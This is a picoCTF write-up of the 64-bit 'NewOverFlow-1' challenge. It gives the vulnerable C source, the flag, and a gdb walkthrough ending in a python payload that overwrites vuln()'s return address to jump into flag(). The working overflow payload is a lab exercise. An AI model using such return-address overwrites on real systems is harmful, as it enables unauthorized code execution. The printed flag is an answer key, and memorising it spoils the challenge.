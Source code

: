 
# Binary Exploitation - NewOverFlow-1 (200 points)

## Challenge

*Lets try moving to 64-bit, but don't worry we'll start easy. Overflow the buffer and change the return address to the flag function in this [program](./vuln). You can find it in /problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7 on the shell server. [Source](./vuln.c).*

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}

## Walkthrough

This challenge is based on the same vulnerability than OverFlow 1 : the function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries).

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}
```

First let's get the start address of `void flag()` using gdb:

```bash
root@kali:~/Downloads# gdb ./vuln
[...]
(gdb) info functions
All defined functions:

Non-debugging symbols:
[...]
0x0000000000400767  flag
0x00000000004007cc  vuln
0x00000000004007e8  main
[...]
```

So the return address has to be set to 0x0000000000400767.

Now, time to play a little with GDB to get the size of our overflow:

```bash
root@kali:~/Downloads# gdb ./vuln
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x00000000004007cc <+0>:     push   %rbp
   0x00000000004007cd <+1>:     mov    %rsp,%rbp
   0x00000000004007d0 <+4>:     sub    $0x40,%rsp
   0x00000000004007d4 <+8>:     lea    -0x40(%rbp),%rax
   0x00000000004007d8 <+12>:    mov    %rax,%rdi
   0x00000000004007db <+15>:    mov    $0x0,%eax
   0x00000000004007e0 <+20>:    callq  0x400630 <gets@plt>
   0x00000000004007e5 <+25>:    nop
   0x00000000004007e6 <+26>:    leaveq
   0x00000000004007e7 <+27>:    retq
End of assembler dump.
```

We are going to set a breakpoint just after the *gets()* call, and then display the stack content:

```bash
(gdb) break *0x00000000004007e5
Breakpoint 1 at 0x4007e5
(gdb) run <<< $(python -c "print('\x41'*8)")
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*8)")
Welcome to 64-bit. Give me a string that gets you the flag:

Breakpoint 1, 0x00000000004007e5 in vuln ()

(gdb) x/12gx $rsp
0x7fffffffe130: 0x4141414141414141      0x00007ffff7fb5700
0x7fffffffe140: 0x0000000000400928      0x00007ffff7e6f1da
0x7fffffffe150: 0x0000000000000000      0x00007fffffffe1a0
0x7fffffffe160: 0x0000000000400680      0x00007fffffffe280
0x7fffffffe170: 0x00007fffffffe1a0      0x000000000040084a
0x7fffffffe180: 0x00007fffffffe288      0x0000000100400680
```

*buf* starts at 0x7fffffffe130, and our return address is at 0x7fffffffe178 (because at this adress we found the address of the next instruction in *main()* right after *vuln()*). So we have to write (0x7fffffffe178 - 0x7fffffffe130) characters before the return address. Let's try it:

```bash
(gdb) run <<< $(python -c "print('\x41'*72 + '\x67\x07\x40')")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/Downloads/vuln <<< $(python -c "print('\x41'*72 + '\x67\x07\x40')")
Welcome to 64-bit. Give me a string that gets you the flag:

Breakpoint 1, 0x00000000004007e5 in vuln ()
(gdb) x/12gx $rsp
0x7fffffffe130: 0x4141414141414141      0x4141414141414141
0x7fffffffe140: 0x4141414141414141      0x4141414141414141
0x7fffffffe150: 0x4141414141414141      0x4141414141414141
0x7fffffffe160: 0x4141414141414141      0x4141414141414141
0x7fffffffe170: 0x4141414141414141      0x0000000000400767
0x7fffffffe180: 0x00007fffffffe288      0x0000000100400680
[...]
```

It fits perfectly, and the return address is overwritten. Now in real conditions:

```bash
m3oow@pico-2019-shell1:/problems/newoverflow-1_1_39d472170ee5080cac1226374a7101a7$ (python -c "print('A'*72 + '\x68\x07\x40\x00\x00\x00\x00\x00')"; cat -) | ./vuln
Welcome to 64-bit. Give me a string that gets you the flag:
picoCTF{th4t_w4snt_t00_d1ff3r3nt_r1ghT?_cfe23f2b}
```
